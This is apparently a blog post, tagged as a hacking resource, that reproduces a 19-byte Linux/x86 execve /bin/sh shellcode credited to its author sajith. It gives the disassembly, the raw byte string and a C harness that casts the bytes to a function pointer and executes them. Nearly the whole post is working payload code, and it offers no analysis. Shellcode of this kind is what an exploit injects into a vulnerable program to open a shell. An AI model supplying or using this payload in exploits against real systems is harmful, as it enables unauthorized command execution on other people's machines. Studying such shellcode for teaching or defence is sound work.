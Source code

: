 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-26
title: Exploits
tags: Resource, Hack
category: Hack
status: publish
-->

## Linux/x86 - execve /bin/sh Shellcode (19 bytes) ##

> Every Exploit, Shellcode and Paper

    /*
    # Linux/x86 - execve /bin/sh shellcode (19 bytes)
	# Author: sajith
	# Tested on: i686 GNU/Linux
	# Shellcode Length: 19
	# SLAE - 750
 
	Disassembly of section .text:
 
	08048060 <_start>:
	8048060: 31 c0 xor eax,eax
	8048062: 50 push eax
	8048063: 68 2f 2f 73 68 push 0x68732f2f
	8048068: 68 2f 62 69 6e push 0x6e69622f
	804806d: 87 e3 xchg ebx,esp
	804806f: b0 0b mov al,0xb
	8048071: cd 80 int 0x80
	===============poc by sajith shetty=========================
	*/
 
	#include<stdio.h>
	#include<string.h>
 
	unsigned char code[] = \
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80";
 
	main()
	{
 
	printf("Shellcode Length: %d\n", strlen(code));
 
	int (*ret)() = (int(*)())code;
 
	ret();
 
	}

